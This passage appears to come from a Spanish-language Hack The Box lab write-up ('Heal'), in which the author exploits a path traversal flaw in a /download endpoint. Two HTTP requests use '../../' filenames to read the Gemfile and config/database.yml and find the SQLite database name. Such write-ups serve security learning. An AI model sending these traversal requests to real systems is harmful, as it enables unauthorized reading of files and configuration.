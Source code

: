 Solicité el archivo `Gemfile` y confirmé que la aplicación utiliza sqlite3 como base de datos.

```http
GET /download?filename=../../Gemfile HTTP/1.1
```

![](assets/img/htb-writeup-heal/heal2_2.png)

La base de datos debía estar en el directorio `/storage`, accedí al archivo de configuración `database.yml` donde encontré el nombre de la base de datos definida como `development.sqlite3`.

```http
GET /download?filename=../../config/database.yml HTTP/1.1
```

![](assets/img/htb-writeup-heal/heal2_3.png)
